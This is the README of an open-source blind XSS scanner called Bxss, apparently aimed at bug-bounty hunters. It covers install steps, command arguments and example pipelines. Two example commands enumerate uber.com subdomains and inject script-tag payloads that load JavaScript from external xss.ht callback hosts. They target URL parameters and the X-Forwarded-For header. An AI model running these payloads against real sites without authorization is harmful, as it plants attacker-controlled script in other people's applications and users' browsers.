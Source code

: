 <h1 align="center">
  <br>
<img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.jpg" width="200px" alt="Bxss">
</h1>
<h1 align="center">
Bxss - Blind XSS Scanner

[![Version](https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/releases/latest)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE)
[![Go Report Card](https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square)](https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss)
[![Go Reference](https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg)](https://pkg.go.dev/github.com/ethicalhackingplayground/bxss)

## </h1>

## Description

Blind XSS Scanner is a tool that can be used to scan for blind XSS vulnerabilities in web applications.

---

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup

## Install

```
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## Arguments

| Argument              | Description                              | Default      |
| --------------------- | ---------------------------------------- | ------------ |
| `-appendMode`         | Append the payload to the parameter      |              |
| `-concurrency int`    | Set the concurrency                      | 30           |
| `-header string`      | Set the custom header                    | "User-Agent" |
| `-headerFile string`  | Path to file containing headers to test  |              |
| `-parameters`         | Test the parameters for blind xss        |              |
| `-payload string`     | The blind XSS payload                    |              |
| `-payloadFile string` | Path to file containing payloads to test |              |

---

## Demonstration

[![asciicast](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg)](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm)

---

### Blind XSS In Parameters

```bash
subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```

### Blind XSS In X-Forwarded-For Header

```bash
subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"
```

---

**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://buymeacoffee.com/zoidsec" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
